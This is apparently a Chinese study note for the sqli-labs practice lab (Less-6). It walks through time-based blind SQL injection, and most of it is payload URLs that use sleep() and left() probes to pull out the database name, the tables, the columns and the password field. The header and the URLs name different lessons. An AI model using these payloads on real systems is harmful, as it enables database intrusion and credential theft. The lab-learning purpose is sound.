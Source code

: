 4. Group by clause //分组语句

# **Less-6** 

**GET - Double Injection - Double Quotes - String (双注入GET双引号字符型注入)**



### **方法一：时间延迟型手工注入**

时间延迟型手工注入，正确会延迟，错误没有延迟。

判断表中存在几个字段

```
id=1" order by 3 --+
```

验证时间延迟型的盲注：

```
http://daishen.ltd:1112/sqli-labs-master/Less-5/?id=1" and sleep(5)--+
```

发现明显延迟，

爆库长payload经过几次尝试，发现数据库长度为8时有明显延迟5秒。

```
http://daishen.ltd:1112/Less-5/?id=1" and if(length(database())=8,sleep(5),1) --+
```

爆库名payload数据库第一个字符为s，加下来以此增加left(database(),字符长度)中的字符长度，等号右边以此爆破下一个字符，正确匹配时会延迟。最终爆破得到left(database(),8)='security'

```
http://daishen.ltd:1112/Less-5/?id=1" and if(left(database(),1)='s',sleep(5),1) --+		第一个字母为s

http://daishen.ltd:1112/Less-5/?id=1" and if(left(database(),2)='se',sleep(5),1) --+	第二个字母为e
```

爆表名payload

```
http://daishen.ltd:1112/Less-5/?id=1" and if( left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' ,sleep(5),1)--+

直接猜
?id=1" and if(left((select table_name from information_schema.tables where table_schema=database() limit 3,1),5)='users',sleep(5),5)--+
```

爆列名payload

```
http://daishen.ltd:1112/Less-5/?id=1" and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+
```

暴数据payload按照id排序，这样便于对应。注意limit 从0开始.坚持不懈的尝试
